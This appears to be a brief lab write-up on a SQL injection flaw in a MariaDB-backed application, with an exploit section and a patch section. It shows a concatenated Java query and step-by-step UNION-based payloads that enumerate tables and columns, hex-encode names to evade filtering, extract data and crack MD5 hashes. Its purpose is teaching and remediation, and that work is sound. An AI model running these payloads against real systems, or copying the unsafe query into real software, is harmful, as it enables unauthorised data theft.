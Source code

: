 🚨 **EXPLOIT**

#### SQL injection

Example of unsafe query constructed with concatenation of user input :

`String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";`

#### Steps
1. Find the Database system
- We can find it easily here with the input "'" that tells us the system is MariaDB.
2. Find the number of columns
- `1 ORDER BY X` Keep increasing `X` until an error is caused.
3. Use Union to find the tables names / columns names

`1 UNION SELECT NULL, table_name FROM information_schema.tables--`

`1 UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name=X`

Where X is converted in hex to avoid any filtering and any issue with the character "'".

4. Extract important information 

`1 UNION SELECT a,b FROM C`

5. Decrypt from MD5
---

✅ **PATCH**

- Use prepared statements
- Use a safe API with a parameterized interface
- Sanitize the input server side (if a number is expected, only accept numbers, escape special characters like " ' , etc...")
